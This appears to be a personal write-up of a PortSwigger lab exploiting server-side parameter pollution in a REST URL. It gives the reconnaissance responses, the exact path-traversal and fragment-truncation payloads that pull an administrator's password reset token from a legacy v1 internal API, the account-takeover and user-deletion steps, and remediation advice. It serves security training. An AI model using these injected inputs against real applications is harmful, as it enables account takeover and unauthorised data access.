

## Metadata

- **Difficulty:** Expert
- **Category:** API testing
- **Lab URL:** [Lab: Exploiting server-side parameter pollution in a REST URL](https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-rest-url)
- **Date Solved:** 01/10/2026
## Vulnerability Summary

The app is vulnerable to server-side parameter pollution. It does not strip or sanitize path traversal sequences (`../`), allowing us to manipulate server-side URL path to exploit the API. Combined with verbose error messages in the response of the server and the exposure of server-side parameter (`passwordResetToken`) in client-side script, an attacker can retrieve this reset token and set a password of any arbitrary account without knowing the email address or credentials of said account.
## Reconnaissance

- Navigate to the `/login` endpoint, then the `/forgot-password` endpoint. You will be prompted with entering your username. Since we are trying to take control of the `administrator` account, enter this value and submit. This results in a `POST /forgot-password` with the body:
```http
csrf=[token]&username=administrator
```
- Appending the URL encoded `#` character (`%23`) to the `administrator` value in `username` in an attempt to truncate the server-side request yields a `404 Not Found` HTTP response that reads:
```http
{
  "type":"error",
  "result":"Invalid route. Please refer to the API definition"
}
```
- Appending the URL encoded `&` character (`%26`), however, results in `400 Bad Request`:
```http
{
  "type":"error",
  "result":"The provided username \"administrator&\" does not exist"
}
```
`%26` is decoded into its original form `&`, and interpreted as part of the username, not query syntax. Combined with the `Invalid route` response before, maybe the internal API place parameter names and values in some kind of URL path rather than a query string?

- Injecting the value `./administrator` into the `username` value confirms this. The server response with a `200 OK` and our original response:
```http
{
  "type":"email",
  "result":"*****@normal-user.net"
}
```

Our goal is now the API definition - we need to know the parameters and their relative positions in the route. The current directory is probably for account finding by username, as `username=./api` returns `"The provided username \"api\" does not exist"`. We will attempt to inject path traversal sequences in order to get to the target directory. The template is going to be like: `username=../(../)(...)[endpoint]%23`. 

- Trying the `/api` endpoint with traversal sequences doesn't return anything useful, as all the responses are `"Invalid route. Please refer to the API definition"`.
- Trying the `/swagger/index.html` endpoint with 3 or less traversal sequences yields the same results. However, with 4 traversal sequences, the server returns a different `500 Internal Server Error` that reads:
```http
{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```
- Regarding the `/openapi.json` endpoint, with 4 traversal sequences: `username=../../../../openapi.json%23`, the server returns a `500 Internal Server Error` that contains crucial information about the internal API route:
```http
{
  "error":"Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
The path is `/api/internal/v1/users/{username}/field/{field}`. This is why we needed 4 traversal sequences - to get to the `/api` directory.

However, we do not know the accepted values of the `{field}` parameter. Trying `username=administrator/field/uia%23` returns a `400 Bad Request` that reads:
```http
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```
With the `email` field (`username=administrator/field/email%23`), the response is identical to the response of the original (`username=administrator`) response.

The `GET /forgot-password` reveals a client-side script at `/static/js/forgotPassword.js`. It reveals the URL template for password resetting:
```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```
Using `passwordResetToken` as the value of the `field` parameter returns `"This version of API only supports the email field for security reasons"` again.
- "This version of API" suggests that this same security mechanism might not be implemented in other versions. The current version is exposed to be `2.0.0` from the response above. We can confirm this, as an identical response can be seen when sending `../../../../api/internal/v2/users/administrator/field/passwordResetToken%23`.
- Changing `v2` to `v1` and sending `../../../../api/internal/v1/users/administrator/field/passwordResetToken%23` results in a `200 OK`, and the token is shown in the response: 
```http
{
  "type":"passwordResetToken",
  "result":"[resetToken]"
}
```
With the endpoint exposed (`/forgot-password?passwordResetToken=${resetToken}`) and the token retrieved, the job left is trivial.
## Exploitation Steps

1. Navigate to the `/login` endpoint, then the `/forgot-password` endpoint. Submit `administrator` as your username when prompted.
2. Intercept the `POST /forgot-password` request, which initially contains this in the request body:
```http
csrf=[token]&username=administrator
```
3. Modify the body to the line below, then send the request:
```http
csrf=[token]&username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```
You should receive a `200 OK` HTTP response that reads:
```http
{
  "type":"passwordResetToken",
  "result":"[resetToken]"
}
```
Make a note of this `[resetToken]`.
4. Go to the website and navigate to the endpoint `/forgot-password?passwordResetToken=[resetToken]`. The server should response with 2 fields to enter and confirm your new password

5.  Enter a new simple password, then login with it and the username `administrator`. You should do so successfully, where you can see the "Admin panel" tab with an option to delete user `carlos`. Delete user `carlos` (`GET /admin/delete?username=carlos`), and lab is solved.
## Payload Used

Request to retrieve the token:
```http
POST /forgot-password HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...

csrf=[token]&username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```

Request to reset password: `GET /forgot-password?reset_token=[resetToken]` and
```http
POST /forgot-password?passwordResetToken=[resetToken] HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...

csrf=[token]&passwordResetToken=[token]&new-password-1=a&new-password-2=a
```

Request to delete user `carlos`: `GET /admin/delete?username=carlos`
`../../../../api/internal/v1/users/administrator/field/passwordResetToken%23` traverses to the root directory and specifically requested an insecure, presumably out-of-order API version that supports `passwordResetToken` as `field` value. This explicitly instructs the backend API to return the `passwordResetToken` attribute directly in the JSON response. The URL-encoded `#` at the end acts as a URL fragment identifier, truncating the rest of the query string to prevent syntax error. 
## Root Cause

- **Unsanitized Dynamic Path Interpolation:** The frontend application constructs internal REST requests using string concatenation or template interpolation (e.g., `http://internal-api/api/internal/v2/users/${username}/field/email`) using raw user input without enforcing a strict whitelist or stripping URI control characters (`../`, `#`).
- **Insecure API Versioning & Lack of Deprecation Controls:** The internal architecture exposed an outdated, unauthenticated endpoint (`v1`) alongside `v2`. While `v2` restricted query-able attributes to the `email` field, `v1` retained insecure legacy functionality that exposed sensitive authorization attributes (`passwordResetToken`) directly over the wire without parity checks or access barriers.
## Remediation

- **Input Validation and Normalization:**
    - Reject inputs containing directory traversal characters (`../`, `..%2f`) or URI control sequences (`%23`, `#`, `?`).
    - Validate parameters against a strict alphanumeric whitelist (e.g., regex `^[a-zA-Z0-9_.-]+$`) prior to passing them to internal HTTP clients.
- **Secure Client Abstractions:**
    - Avoid raw string interpolation for internal API routes. Use structured HTTP client libraries that properly URI-encode path segments (e.g., URL-encoding forward slashes so `/` becomes `%2F`, preventing path-level traversal).
- **Deprecate and Decommission Insecure API Versions:**
    - Completely decommission legacy API routes (`v1`) once newer versions (`v2`) are deployed.
    - If legacy versions must persist, backport security controls across all active versions.